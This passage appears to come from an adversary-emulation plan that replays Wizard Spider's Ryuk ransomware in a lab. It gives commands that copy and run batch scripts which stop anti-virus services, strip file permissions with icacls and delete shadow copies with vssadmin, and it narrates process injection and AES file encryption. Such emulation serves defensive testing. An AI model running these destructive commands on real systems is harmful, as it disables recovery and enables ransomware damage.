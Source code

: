 ```bash
# Ryuk has called kill.bat for stopping services, disabling services and killing processes.[1]

# Ryuk can launch icacls /grant Everyone:F /T /C /Q to delete every access-based restrictions on files and directories.[4]

# Ryuk has stopped services related to anti-virus.[2]

copy \\TSCLIENT\X\kill.bat C:\Users\Public\kill.bat

C:\Users\Public\kill.bat
```

[Source Code](../../Resources/Ryuk/bin/kill.bat)

```bash
# Ryuk has used vssadmin Delete Shadows /all /quiet to to delete volume shadow copies and vssadmin resize shadowstorage to force deletion of shadow copies created by third-party applications.[1]

copy \\TSCLIENT\X\window.bat C:\Users\Public\window.bat

C:\Users\Public\window.bat
```

[Source Code](../../Resources/Ryuk/bin/window.bat)

### :microscope: Cited Intelligence

* <https://www.crowdstrike.com/blog/big-game-hunting-with-ryuk-another-lucrative-targeted-ransomware/>
* <https://www.fireeye.com/blog/threat-research/2019/01/a-nasty-trick-from-credential-theft-malware-to-business-disruption.html>
* <https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-006.pdf>

<br>

## Test 6 (Step 10)

### Step 10 - Ryuk Encryption for Impact

:microphone: `Voice Track:`

In our final test, Wizard Spider uploads and executes Ryuk.

Ryuk is uploaded using the RDP-mounted network share, and executed from CMD.

When Ryuk executes, it will first gain `SeDebugPrivilege`.

Ryuk will then and inject its own executable into a remote process,notepad.exe, via `WriteProcessMemory` and `CreateRemoteThread` WinAPI calls.

From the remote process, Ryuk will encrypt files on wizard/10.0.0.4's C:\Users\Public directory (recursive).

Next, Ryuk encrypts files on Toto/10.0.0.8 at \\C$\Users\Public (mounted on wizard as Z:).

Ryuk uses a symmetric key algorithm, AES256 to encrypt files.
